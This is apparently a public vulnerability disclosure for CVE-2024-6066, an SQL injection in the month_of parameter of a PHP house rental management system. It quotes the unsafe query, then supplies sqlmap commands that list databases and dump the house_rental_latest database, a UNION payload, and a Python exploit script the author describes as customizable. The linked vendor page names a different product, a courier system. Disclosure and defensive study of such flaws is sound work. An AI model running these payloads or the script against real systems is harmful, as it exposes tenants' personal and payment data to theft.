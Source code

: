 ```yaml
---
title: CVE-2024-6066
draft: false
tags:
  - cve
---
```

# SQL Injection Vulnerability at Sourcecodester House Rental Management System

> A vulnerability classified as critical has been found in SourceCodester Best House Rental Management System 1.0. Affected is an unknown function of the file payment_report.php. The manipulation of the argument month_of leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-268794 is the identifier assigned to this vulnerability.

**Official Website**: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

**Version**: v1.0

**route**`:/payment_report.php?month_of=<payload>`

**Related Code file**: `payment_report.php`

**Injection parameter**: `month_of`
## Vulnerability Analysis

Vulnerable code:

```php
$payments = $conn->query("SELECT p.*, concat(t.lastname,', ',t.firstname,' ',t.middlename) as name, h.house_no FROM payments p INNER JOIN tenants t ON t.id = p.tenant_id INNER JOIN houses h ON h.id = t.house_id WHERE date_format(p.date_created,'%Y-%m') = '$month_of' ORDER BY unix_timestamp(date_created) ASC");
```

The part of this code that is vulnerable to SQL injection is the following SQL query, where the $month_of parameter is directly included in the SQL statement without any sanitization or use of prepared statements.
Because the `$month_of` parameter is coming directly from user `input ($_GET['month_of'])`. An attacker could manipulate this input to include malicious SQL code.

## Vulnerability Verification and Exploit
We can easily recreate this vulnerability using sqlmap as such:

Below is for basic sql injection testing:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/90efd07f-9db7-479e-a186-18d9a4316666)

Below is the payload that can be used to reproduce withouut sqlmap

```
month_of=2024-06' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b6b6271,0x7150726e686a6f7a51496176746f794e58766344546e746a77414663655079734a697847496f4557,0x716b7a6271),NULL-- -
```

Below is the command used to dump database list:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/042e913b-ac47-4ecd-a41f-c40adc4dbfdb)

Below is the command used to dump data inside house_rental_latest database:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch --dbs -D house_rental_latest --dump`

![image](https://github.com/jadu101/CVE/assets/76433661/464aa85e-990d-4247-9573-c0fb833b3208)


## Exploit Code

Below is the Python code that can be customized. 

For now it is listing the database on the system but could be modified for different purpose:

```python
# Exploit Title: SQL Injection Vulnerability at Sourcecodester House Rental Management System
# Date: 2024/06/18
# Exploit Author: jadu101
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
# Version: 1.0 (REQUIRED)
# Tested on: Ubuntu
# CVE : CVE-2024-6066


import requests
from bs4 import BeautifulSoup

def extract_tenant_column(html_content):
    """
    Extracts the Tenant column data from the HTML content.
    """
    soup = BeautifulSoup(html_content, 'html.parser')
    tenants = []

    # Locate the table containing the report
    table = soup.find('table', {'class': 'table'})
    if not table:
        return tenants

    # Locate the headers to find the Tenant column index
    headers = table.find_all('th')
    tenant_index = -1
    for index, header in enumerate(headers):
        if 'Tenant' in header.text:
            tenant_index = index
            break

    if tenant_index == -1:
        return tenants

    # Extract the data from the Tenant column
    rows = table.find_all('tr')
    for row in rows:
        columns = row.find_all('td')
        if len(columns) > tenant_index:
            tenant_data = columns[tenant_index].text.strip()
            tenants.append(tenant_data)

    return tenants

# Define the base URL of the application (CHANGE HERE)
base_url = "http://127.0.0.1/rental/payment_report.php"

# Define the vulnerable parameter and the new payload to list the current database (CHANGE the PAYLOAD)
vulnerable_param = "month_of"
payload = "2024-06' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, DATABASE(), NULL-- -"

# Construct the URL with the payload
url = f"{base_url}?{vulnerable_param}={payload}"

# Make the GET request to the vulnerable URL
response = requests.get(url)

# Check if the response was successful
if response.status_code == 200:
    # Extract and print the Tenant column data
    tenant_column_data = extract_tenant_column(response.text)
    if tenant_column_data:
        print("Output of SQL Query:")
        for tenant in tenant_column_data:
            print(tenant)
    else:
        print("SQL Injection unsuccessful. Recheck your Query")
else:
    print(f"Failed to retrieve the page. Status Code: {response.status_code}")
    print("Response Text:")
    print(response.text)
```




